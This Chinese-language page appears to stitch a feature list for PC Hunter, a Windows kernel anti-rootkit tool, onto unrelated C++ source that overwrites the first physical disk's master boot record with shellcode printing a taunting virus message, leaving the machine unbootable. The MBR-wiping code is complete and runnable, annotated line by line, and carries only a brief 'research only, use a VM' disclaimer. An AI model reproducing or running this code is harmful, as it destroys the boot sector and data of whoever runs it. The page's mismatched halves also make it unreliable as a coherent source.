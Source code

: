 

[PC Hunter](https://www.portablesoft.org/pc-hunter/) 大量使用了 Windows 内核技术，尤其是为了做一些检测而使用了些 Windows 未公开的内核数据结构，目前初步实现如下功能：

- 进程、线程、进程模块、进程窗口、进程内存信息查看，杀进程、杀线程、卸载模块等功能
- 内核驱动模块查看，支持内核驱动模块的内存拷贝
- SSDT、Shadow SSDT、FSD、KBD、TCPIP、Classpnp、Atapi、Acpi、SCSI、IDT、GDT信息查看，并能检测和恢复 ssdt hook 和 inline hook
- CreateProcess、CreateThread、LoadImage、CmpCallback、BugCheckCallback、Shutdown、Lego 等 Notify Routine 信息查看，并支持对这些 Notify Routine 的删除
- 端口信息查看，目前不支持2000系统
- 查看消息钩子
- 内核模块的 iat、eat、inline hook、patches 检测和恢复
- 磁盘、卷、键盘、网络层等过滤驱动检测，并支持删除
- 注册表编辑
- 进程 iat、eat、inline hook、patches 检测和恢复
- 文件系统查看，支持基本的文件操作
- 查看（编辑）IE插件、SPI、启动项、服务、Host文件、映像劫持、文件关联、系统防火墙规则、IME
- ObjectType Hook 检测和恢复
- DPC 定时器检测和删除
- MBR Rootkit 检测和修复
- 内核对象劫持检测
- WorkerThread 枚举
- Ndis 中一些回调信息枚举
- 硬件调试寄存器、调试相关API检测
- 枚举 SFilter/Fltmgr 的回调
- 系统用户名检测





```

[内核编程] 修改MBR使得系统无法开机的代码  [内核编程] 关于内核下修改MBR导致系统无法引导的代码研究！

该源码运行在W7和XP   XP以上的平台需要管理权限，并且假如测试研究请在虚拟机中实现，否则请勿运行，改源码作为研究学习之用！


#include <Windows.h>#include<iostream>
using namespace std;
unsigned char scode[]=
    "\xb8\x12\x00\xcd\x10\xbd\x18\x7c\xb9\x18\x00\xb8\x01\x13\xbb\x0c"
    "\x00\xba\x1d\x0e\xcd\x10\xe2\xfe\x41\x20\x61\x6d\x20\x76\x69\x72"
    "\x75\x73\x21\x20\x46\x75\x63\x6b\x20\x79\x6f\x75\x20\x3a\x2d\x29";
int KillMbr()
{
    HANDLE hDevice;//定义一个通用的句柄函数成员，在后面的CreateFile函数中用来接收我们打开（返回）的句柄
    DWORD deBytesWrite,dwByteReturned;//该变量的左右在后面的    DeviceIoControl函数中用来接收返回的字节数，
    BYTE pMbr[512]={0};//定义一个字节数组512并且初始化为0
    memcpy(pMbr,scode,sizeof(scode));//C和C++的拷贝函数，1是缓冲区，2是拷贝的原目标，通俗的讲就是讲2拷贝进1，并且3是拷贝的大小
    pMbr[510]=0x55;//设置引导区倒数第3个得值
    pMbr[511]=0xAA;
    hDevice=CreateFile("\\\\.\\PHYSICALDRIVE0",//打开本地计算机磁盘
        GENERIC_WRITE|GENERIC_READ,//设置读取和写入的
        FILE_SHARE_READ|FILE_SHARE_WRITE,//设置共享读和写
        NULL,//指向SECURITY_ARRBIBUTES结构的指针
        OPEN_EXISTING,//指向一个常数值
        0,//指向一个或多个常数   通常设置为空
        NULL
        );
    if (hDevice==INVALID_HANDLE_VALUE)//判断句柄返回值
    {
        return -1;
    }
    DeviceIoControl(//函数可直接发送控制代码到指定的设备驱动程序，使用相应的的设备执行相应的操作函数
        hDevice,//设备句柄
        FSCTL_LOCK_VOLUME,//锁定，该参数的原型是 CTL_CODE(FILE_DEVICE_FILE_SYSTEM，应用程序调用驱动程序的控制命令，就是IOCTL_XXX IOCTLS命令
        NULL,//应用程序传递给驱动成宿的数据换乘区地址
        0,//应用程序传递给驱动程序的缓冲区大小字节数
        NULL,//驱动程序返回个应用程序的数据缓冲区地址
        0,//驱动程序返回给应用程序的数据缓冲区大小字节
        &dwByteReturned,//驱动程序实际返回给应用程序数据字节数地址
        NULL//这个结构用于重叠结构针对同步操作
        );
    WriteFile(hDevice,//写入设备
        pMbr,//写如的缓冲区
        sizeof(pMbr),//大小缓冲区
        &deBytesWrite,//用来接收返回   实际写入的字节数（也就是该成员变量中得值是我们写入的具体字节数或保存在里面）
        NULL//假如指定了FILE_FLAG_OVERLAPPED的前提打开这个参数必须引用一个特殊结构，该结构定义了一次异步的写操作
        //否则该参数一般Wie空
        );
    DeviceIoControl(//该函数和上一个一样 注释将不再写第二次
        hDevice,
        FSCTL_LOCK_VOLUME,
        NULL,
        0,
        NULL,
        0,
        &dwByteReturned,
        NULL
        );
        CloseHandle(hDevice);//关闭一个通用句柄
    ExitProcess(NULL);//退出进程
    return 0;

}
   
int main()
{
    KillMbr();//调用我们自定义的函数可以写成void （return 0;就不用写了） 但是我这里写成int  都可以的

    return 0;//返回值 对应主函数的int
}

```



